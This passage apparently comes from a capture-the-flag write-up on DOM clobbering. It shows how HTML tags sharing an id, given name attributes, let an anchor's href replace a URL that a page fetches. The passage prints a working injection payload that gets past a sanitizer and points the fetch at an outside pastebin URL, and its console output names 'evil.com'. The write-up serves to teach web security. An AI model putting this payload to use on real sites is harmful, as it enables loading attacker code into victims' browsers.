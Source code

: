 As a result, this is what we get:
```js
> window.debug
HTMLCollection(2) [h1#debug, h2#debug, debug: h1#debug]
```

Now, if we add in the `name` attribute, we can use `extension` as a key:
```html
<h1 id="debug" name="blahblah">xx</h1>
<h2 id="debug" name="extension">yy</h2>
```
```js
> window.debug
HTMLCollection(2) [h1#debug, h2#debug, debug: h1#debug, extension: h1#debug, blahblah: h2#debug]

> window.debug.extension
<h1 id="debug" name="extension">xx</h1>
```

But there's a small caveat. The URL that gets fetched is through `window.debug.extension.toString()`, and if we try that here:
```js
> window.debug.extension.toString()
'[object HTMLHeadingElement]'
```

So clearly we need to find a way so that `toString` returns a valid URL. Well, luckily for me, the first Google result for "html element with built in tostring" is [this very helpful Mozilla Web Docs page](https://developer.mozilla.org/en-US/docs/Web/API/HTMLAnchorElement/toString):

![HTML Anchor toString method](/img/writeups/2023/upsolving/web-workshop-1/htmlanchortostring.png)

So we just need to use an `a` tag, and put in our own URL inside of the `href` attribute. There's a bit of jank here with getting the sanitizer to happily accept the HTML, but here's one payload that works (for further in this writeup, both tags will be `a` tags for simplicity):
```html
<h1 id=debug name=blahblah>
<a id=debug name=extension href=https://pastebin.com/raw/MePPfNZJ> 
```
```js
> window.debug
HTMLCollection(2) [a#debug, a#debug, debug: a#debug, blahblah: a#debug, extension: a#debug]

> window.debug.extension.toString()
'https://evil.com/'
```
DOM Clobbered!
